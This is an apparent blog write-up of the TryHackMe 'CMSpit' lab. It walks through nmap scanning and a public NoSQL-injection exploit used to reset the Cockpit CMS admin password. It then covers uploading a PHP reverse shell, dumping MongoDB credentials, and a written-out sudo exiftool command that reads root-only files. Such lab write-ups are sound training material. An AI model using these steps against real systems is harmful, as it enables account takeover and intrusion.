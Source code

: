 ```yaml
---
title: "TryHackMe - CMSpit"
author: Nasrallah
description: ""
date: 2022-12-05 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, sudo, cve, reverse-shell, mongodb]
img_path: /assets/img/tryhackme/cmspit
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [CMSpit](https://tryhackme.com/room/cmspit) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.68.97
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f25f9402325cd298b28a9d982f549e4 (RSA)
|   256 0af429ed554319e773a7097930a8491b (ECDSA)
|_  256 2f43ada3d15b648633075d94f9dca401 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports on a Ubuntu machine, port 22 running OpenSSH and port 80 running Apache web server.

### Web

Let's check the web page.

![](1.png)

When we visit the page we get redirected to a login page of cockpit, i tried some default credentials as well as sql injection but couldn't log in.

Let's search for any vulnerabilities in this CMS.

```terminal
$ searchsploit cockpit
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cockpit CMS 0.11.1 - 'Username Enumeration & Password Reset' NoSQL Injection                                               | multiple/webapps/50185.py
Cockpit CMS 0.4.4 < 0.5.5 - Server-Side Request Forgery                                                                    | php/webapps/44567.txt
Cockpit CMS 0.6.1 - Remote Code Execution                                                                                  | php/webapps/49390.txt
Cockpit Version 234 - Server-Side Request Forgery (Unauthenticated)                                                        | multiple/webapps/49397.txt
openITCOCKPIT 3.6.1-2 - Cross-Site Request Forgery                                                                         | php/webapps/47305.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The latest vulnerability is in version 0.11.1 allowing us to enumerate users and reset passwords.

Let's copy the exploit to our machine with the command `searchsploit -m multiple/webapps/50185.py` and see what we can do with it.

![](2.png)

We managed to find 4 users, we can also reset passwords, so let's reset the admin's password.

![](3.png)

Great we got the password, let's log in.

![](4.png)

## **Foothold**

Navigating through the different pages, i find a page called **/finder** where i can browse file of the web server and create files.

![](5.png)

I created a file and named it shell.php, then copied [Pentest Monkey's reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) to the file and saved it.

![](6.png)

Then i setup a listener to catch the shell and requested the file.

![](7.png)


## **Privilege Escalation**

Searching through the files of the web server, we find `mongo` file, we try to connect to the mondo database and we succeed.

![](8.png)

We list the databases with `show dbs`, we select a specific database with `use DATABASENAME` then we `show collections.`

To dump the collections we run `db.Name.find()`.

![](9.png)

We found `stux`'s password, let's switch to him with `su stux`.

Now let's check our current privileges.

```terminal
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool

```

We can run exiftool as root, let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/exiftool/#sudo)

![](11.png)

We can read any file we want so let's get the root flag with the following command:

```bash
sudo /usr/local/bin/exiftool -filename=./root.txt /root/root.txt
```

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
